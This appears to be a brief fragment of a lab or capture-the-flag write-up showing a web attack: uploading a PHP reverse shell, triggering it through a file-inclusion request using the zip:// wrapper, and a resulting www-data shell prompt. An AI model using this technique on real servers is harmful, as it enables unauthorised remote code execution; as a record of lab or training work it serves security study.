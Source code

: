 -  upload php\_reverse\_shell\.php

GET /index\.php?file=zip://uploads/upload\_1709242088\.zip%23php\_reverse\_shell

$ www\-data